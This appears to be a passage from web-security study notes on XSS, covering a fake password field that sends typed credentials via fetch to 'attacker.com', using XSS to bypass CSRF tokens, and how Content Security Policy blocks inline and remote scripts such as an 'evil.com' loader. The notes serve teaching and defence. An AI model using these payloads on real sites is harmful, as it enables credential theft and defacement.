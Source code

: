 ```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://attacker.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

### <mark style="color:purple;">**Perform CSRF**</mark>

* When CSRF occurs as a standalone vulnerability, it can be patched using strategies like anti-CSRF tokens. However, these strategies do not provide any protection if an XSS vulnerability is also present.
* If the site use a token you can get it doing a first request and then add the token in a second request

## <mark style="color:purple;">Content security policy</mark>

CSP restrict the resources (such as scripts and images) that a page can load and restricting whether a page can be framed by other pages. CSP defends against XSS attacks in the following ways

* Restricting Inline Scripts
  * `<script>document.body.innerHTML='defaced'</script>` will not work
* Restricting Remote Scripts
  * `<script src="https://evil.com/hacked.js"></script>` will not work
* Restricting Unsafe JavaScript
* Others [https://cheatsheetseries.owasp.org/cheatsheets/Content\_Security\_Policy\_Cheat\_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html)
